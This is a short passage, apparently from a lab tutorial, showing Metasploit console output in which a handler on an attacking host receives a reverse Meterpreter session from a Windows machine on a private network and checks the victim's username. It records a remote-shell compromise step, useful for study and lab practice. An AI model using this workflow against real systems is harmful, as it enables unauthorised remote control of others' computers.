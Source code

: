 ## 5. Receive response on attacking host
```
msf6 exploit(multi/handler) > [*] Sending stage (200262 bytes) to 192.168.252.8
[*] Meterpreter session 1 opened (192.168.252.5:6666 -> 192.168.252.8:2095) at 2021-02-05 12:06:19 +0100

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-8DCK0D8\vbox
```


